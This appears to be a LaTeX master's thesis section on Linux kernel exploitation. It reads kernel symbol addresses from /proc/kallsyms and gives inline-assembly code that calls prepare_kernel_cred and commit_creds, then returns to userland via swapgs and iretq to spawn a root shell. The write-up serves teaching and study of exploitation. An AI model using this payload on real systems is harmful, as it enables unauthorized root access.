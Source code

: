 \documentclass{masterthesis}
\begin{document}
\subsection{Getting root privileges}
Our goal is to get root privileges on the system.
This can be done through two functions that already reside in the same kernel-space code: commit_creds () and prepare_kernel_cred ().
Since KASLR is disabled, the addresses where the functions reside are constant at every start. So we can get those addresses by reading the \emph{/proc/kallsyms} file with the following terminal commands:
\begin{lstlisting}
cat /proc/kallsyms | grep commit_creds
-> ffffffff814c6410 T commit_creds
cat /proc/kallsyms | grep prepare_kernel_cred
-> ffffffff814c67f0 T prepare_kernel_cred}
\end{lstlisting}
Then to get root privileges you need to write a code where the two functions are called consecutively using the return value of one as a parameter of the other.
At this point, we need to recall an instruction that allows you to return to userland.
This can be done with \emph{iretq} or \emph{sysretq}.
With iretq it is much simpler as you need to configure the stack with 5 user area registry values in this order:\emph{RIP | CS | RFLAGS | SP | SS}.
For the RIP, we can set the address of the function that allows you to open a shell, while for the others you need to enter values that return to a state before entering kernel mode.
The best solution, therefore, is to save the state of the registers before entering kernel mode and reload them after obtaining root privileges.
\begin{lstlisting}
void save_state(){
    __asm__(
        ".intel_syntax noprefix;"
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
        ".att_syntax;"
    );
    puts("[*] Saved state");
}
\end{lstlisting}
Before iretq, it is appropriate to invoke the \emph{swapgs} instruction because syscall does not change RSP to point to the kernel stack (and it does not save RSP user space anywhere). So some kind of thread-local (or core-local) storage is needed so that each core can get the correct kernel stack pointer for the task running on that core.
A possible code to gain root privileges is:
\begin{lstlisting}
unsigned long user_rip = (unsigned long)get_shell;
void escalate_privs(void){
    __asm__(
        ".intel_syntax noprefix;"
        "movabs rax, 0xffffffff814c67f0;" //prepare_kernel_cred
        "xor rdi, rdi;"
      "call rax; mov rdi, rax;"
      "movabs rax, 0xffffffff814c6410;" //commit_creds
      "call rax;"
        "swapgs;"
        "mov r15, user_ss;"
        "push r15;"
        "mov r15, user_sp;"
        "push r15;"
        "mov r15, user_rflags;"
        "push r15;"
        "mov r15, user_cs;"
        "push r15;"
        "mov r15, user_rip;"
        "push r15;"
        "iretq;"
        ".att_syntax;"
    );
}
\end{lstlisting}
\end{document}
